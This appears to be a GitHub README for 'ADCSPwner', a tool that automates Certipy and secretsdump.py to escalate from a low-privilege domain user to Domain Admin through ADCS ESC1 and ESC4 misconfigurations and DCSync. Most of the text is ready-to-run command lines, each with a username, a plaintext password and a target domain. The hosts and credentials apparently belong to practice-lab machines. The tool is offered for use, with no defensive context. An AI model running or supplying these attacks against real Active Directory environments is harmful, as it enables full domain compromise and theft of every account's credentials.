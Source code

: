 # ADCSPwner
An Automated tool leveraging Certipy &amp; secretsdump.py to gain Domain Admin from Low Priv User

## ADCS + DCSync Automation

### ESC1 - ADCS

```
python3 esc1.py -u ryan.cooper@sequel.htb -p 'NuclearMosquito3' -t sequel.htb
```

![image](https://github.com/user-attachments/assets/7c8eb551-4cf9-4194-aa5d-b99a7ce5bedb)


### ESC4 - ADCS

```
python3 esc4.py -u clifford.davey@sendai.vl -p 'RFmoB2WplgE_3p' -t sendai.vl -d 10.10.104.31
```

![image](https://github.com/user-attachments/assets/6cd20428-6349-44e1-a568-281a21fbb7c2)
